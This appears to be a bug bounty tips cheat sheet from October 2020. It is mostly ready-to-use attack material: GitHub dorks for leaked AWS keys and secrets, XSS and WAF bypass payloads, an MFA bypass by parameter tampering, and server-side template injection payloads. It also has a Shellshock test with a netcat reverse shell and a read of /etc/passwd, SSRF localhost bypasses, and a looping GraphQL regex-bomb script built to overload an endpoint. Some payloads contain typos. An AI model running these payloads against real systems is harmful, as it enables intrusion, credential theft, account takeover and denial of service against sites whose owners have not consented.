



# October-2020 Bug Bounty Tips 

## Github Search for Sensitive Info
```text
org:citrix "aws"
org:Target "bucket_name"
org:Target "aws_access_key"
org:Target "aws_secret_key"
org:Target "S3_BUCKET"
org:Target "S3_ACCESS_KEY_ID"
org:Target "S3_SECRET_ACCESS_KEY"
org:Target "S3_ENDPOINT"
org:Target "AWS_ACCESS_KEY_ID"
org:Target "list_aws_accounts"
api_key
“api keys”
authorization_bearer:
oauth
auth
authentication
client_secret
api_token:
“api token”
client_id
password
user_password
user_pass
passcode
client_secret
secret
password hash
OTP
user auth
```
## XSS Firewall Bypass Techniques
1. Check if firewall is blocking only lowercases
```js
<sCRipT>alert(1)</sCRiPt>
```
2. Try to break firewall regex with new line (\r\n)
```js
<script>%0aalert(1)</script>
```
3. Try double encoding
`%2522`
4. Testing for recursive filters, if firewall removes text in red, we will have clear payload
```js
<scr<script>ipt<alert(1);</scr<script>ipt>
```
5. Injecting anchor tag without whitespaces
```js
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pi&Tab;pt&Tab;alert&lpar;1&rpar;">
```
6. Try to Bypass whitespaces using Bullet
```js
<svg•onload=alert(1)>
```
7. Try to change the Request Method
```js
GET /?a=xss

POST /?a=xss
```

**New Payload to Bypass WAF**
```js
<script>alert?.(document?.domain)</script>
```

## Find xmlrpc in single shot
```sh
cat domain.txt | assetfinder --subs-only | httprobe | while read url; do xml=$(curl -s -L $url/xmlrpc.php | grep 'XML-RPC');echo -e "$url -> $xml";done | grep 'XML-RPC' | sort -u
```

## Bypass Multifactor Authentication
1. Notice both the request while login when 2FA is enabled and disabled
2. While 2FA is Disabled :

**Request**
```json
{"email":"abc@mail.com","pass":"password","mfa":null,"code":""}
```
**Response**
```json
Location : https://abc.com/user/dashboard 
```
3. While 2FA is Enabled :

**Resuest**
```json
{"email":"abc@mail.com","pass":"password","mfa":true,"code":""}
```
**Response**
```json
Location : https://abc.com/v1/proxy/authentication/authenticate
```
4. Tamper the Parameter and change the "mfa":null and "code":"" to disable the 2FA
```json
Location : https://abc.com/user/dashboard
```
## DOM XSS


## WAF Bypass 


## Automate Subdomain Takeover
```sh
subfinder -dL domain.txt -o sub.txt && subjack -w sub.txt |toslack
```
***Put it on cron to run once a day***

## Akami WAF Bypass
Reflection in "a" tag, attribute context:
```
< => allowed
<anything> => access denied
quotes => allowed
onanything= => access denied
/ or \ or eval() => access denied
```
**Bypass**
```js
"<>onauxclick<>=(eval)(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=='))>+<sss
```

## Find Reflected XSS
1. subfinder + httprobe
```sh
subfinder -d abc.com | httprobe -c 100 > target.txt
cat target.txt | waybackurls | gf xss | kxss
```
2. Check the URL which have all the special characters unfiltered and the paramater was callback=
3. Check Portswigger XSS CheatSheet for more information.

## XSS Cloudflare Bypass
```js
<x/onpointerRawupdate=confirm%26Ipar;1)//x
```

## Bypass Admin Location
1. If GET /admin/ is 403
2. Try this GET /admin;/

## Server SIde Template Injection
```sh
{{_self.env.registerUndefinedFilterCallback('shell_exec')}}{{_self.env.getFilter('dir)}}
```
**Tool for Burpsuite**
> ***https://github.com/antichown/0x94TR***   
> ***For more info - Exploit Proof of Concept***   
> ***https://youtu.be/TrQi9iwtA0k***

## Test on CGI (cgi-bin)
```sh
User-Agent: () { :;}; echo $(</etc/passwd)
() { :;}; /usr/bin/nc ip 1337 -e /bin/bash
```

## Github Dorks cheat sheet


## SQLi


## SSTI to RCE oneliner check
```sh
 waybackurls http://target.com | qsreplace "abc{{9*9}}" > fuzz.txt
 ffuf -u FUZZ -w fuzz.txt -replay-proxy http://127.0.0.1:8080/
 ```
 ```sh
 waybackurls https://abc.com | grep '=' | qsreplace "abc{{9*9}}"  | httpx -match-regex 'abc81' -threads 300 -http-proxy http://127.0.0.1:8080/
 ```
search: abc81 in burpsuite search and check

## Chaining file uploads with other vulns:-
 Set filename to:- 
`../../../tmp/lol.png` for path traversals
`sleep(10)-- -.jpg` for SQLi.
`<svg onload=alert(document.comain)>.jpg/png` for xss
`; sleep 10;` for command injections.

## Extract urls,srcs and hrefs from all HTML elements in any website
**Open DevTools and run**
```js
urls = []
$$('*').forEach(element => {
  urls.push(element.src)
  urls.push(element.href)
  urls.push(element.url)
}); console.log(...new Set(urls))
```

## XSS

### XSS Oneliner
```sh
gospider -a -s abc.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

### XSS Payloads for short length inputs
```js
<script src=//⑮.₨></script>
```

### XSS Payloads
```js
 img{background-image:url('javascript:alert()')}
 <svg/onload=eval(atob('YWxlcnQoJ1hTUycp'))>
 TestPayload&lt;/a&gt;&lt;a href="javascript:alert(1)"&gt;ClickHere&lt;/a&gt; 
 ```
 
### Stored XSS Payloads
```js

<div/onmouseover='alert(1)'> style="x:">
\";alert('XSS');//
"autofocus/onfocus=alert(1)//
'-alert(1)-'
```

## WAF Bypass
***WAF restriction? Use these:***
 ```sh
 /etc/passwd 
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```

## SSRF Localhost Access Bypass
```sh
0
127.00.1
127.0.01
0.00.0
0.0.00
127.1.0.1
127.10.1
127.1.01
0177.1
0177.0001.0001
0x0.0x0.0x0.0x0
0000.0000.0000.0000
0x7f.0x0.0x0.0x1
0177.0000.0000.0001
0177.0001.0000..0001
0x7f.0x1.0x0.0x1
0x7f.0x1.0x1
```

### When you are testing sharepoint applications check this file path that sometimes leads to directory listing:
```js
/_layouts/mobile/view.aspx
Google dork: /_layouts/mobile/view.aspx
```

## DOS GraphQl Endpoint
***Create DOS on GraphQl Endpoint by appending null characters by somehow***
You can reveal the bug inserting `"\u0000"` on search parameter, in order to display an error with part of the graph query.
** Example -1**
```graphql
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}
```
**Example -2** 
```graphql
query a { 
  search(q: "\u0000)", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id  
 }
}
```

### Graphql Payload with Regex Bomb
```graphql
query a { 
  search(q: "[a-zA-Z0-9]+\\s?)+$|^([a-zA-Z0-9.'\\w\\W]+\\s?)+$\\", lang: "en") {
    _id
   weapon_id
    rarity
    collection{ _id name }
    collection_id 
 }
}
```

### Exploit Code
```sh
#!/bin/bash
RED='\033[0;31m'
Y='\033[0;33m'
NC='\033[0m' # No Color
printf  "${Y}================================================================\n"
printf  "${Y}====================${NC} EXECUTING THE PAYLOAD ON ${Y}=======================\n"
printf  "${NC}https://abc.com/graphql ${Y}========\n"
printf  "${Y}================================================================${NC}\n"
for i in {1..100}; do curl 'https://abc.com/graphql'  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36' -H 'content-type: application/json' -H 'accept: */*'      --data-binary $'{"query":"query a { \\n  search(q: \\"[a-zA-Z0-9]+\\\\\\\\s?)+$|^([a-zA-Z0-9.\'\\\\\\\\w\\\\\\\\W]+\\\\\\\\s?)+$\\\\\\\\\\", lang: \\"en\\") {\\n    _id\\n   weapon_id\\n    rarity\\n    collection{ _id name }\\n    collection_id \\n \\n }\\n}","variables":null}' --compressed  & done
```

### Supporting Materials
> ***https://hackerone.com/reports/1000567***
---

## SSRF 
1. Create an account email@burp_collab*
2. Forgot password
3. Received requests from internal server + SMTP connection details
4. Got Internal headers + origin IP
5. https://abc.com/ = (403)
6. https://abc.com/dir = (Headers + Origin IP = pwn)

## Jira Dorks
```text
inurl:companyname intitle:JIRA login
inurl:visma intitle:JIRA login
site:http://atlassian.net "company"
```
